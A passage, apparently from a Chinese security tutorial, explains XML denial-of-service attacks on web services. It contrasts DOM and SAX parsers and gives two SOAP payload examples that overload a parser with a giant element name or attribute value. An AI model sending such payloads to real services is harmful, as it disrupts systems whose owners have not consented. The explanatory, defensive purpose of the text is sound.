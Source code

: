 [![](assets/1706957905-ccc4ca37063e6ca5ee79631d4fd57772.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094243-5baad59c-c16c-1.png)

### 拒绝服务攻击

Web Service 服务的交互很多都是用的 XML 格式数据，请求中的 XML 数据会由服务端的 XML 解析器进行解析和处理，目前主要有两类 XML 解析器

-   基于 SAX(Simple API for XML) 的 XML 解析器：内存中最多容纳 2 个元素，在这种情况下基于 SAX 的解析器不会存在 DoS 问题
-   基于 DOM(Document Object Model) 的 XML 解析器：会一次性读取客户端存储的所有 XML 数据，因此会导致内存中存在庞大的对象数据从而导致存在 DoS 问题，漏洞根源在于没有检查 XML 中节点的大小和数量

针对元素名称的 DoS 攻击的示例：

```bash
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header/>
    <soapenv:Body>
    <TEST>
        <BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA………BGABGABGABGABGABGABGABGABGABGA>
    </TEST>
    </soapenv:Body>
</soapenv:Envelope>
```

针对元素属性的 DoS 攻击的示例：

```bash
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header/>
    <soapenv:Body>
    <TEST>
        <BGA attribute="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA………BGABGABGABGABGABGABGABGABGABGA"></BGA>
    </TEST>
    </soapenv:Body>
</soapenv:Envelope>
```
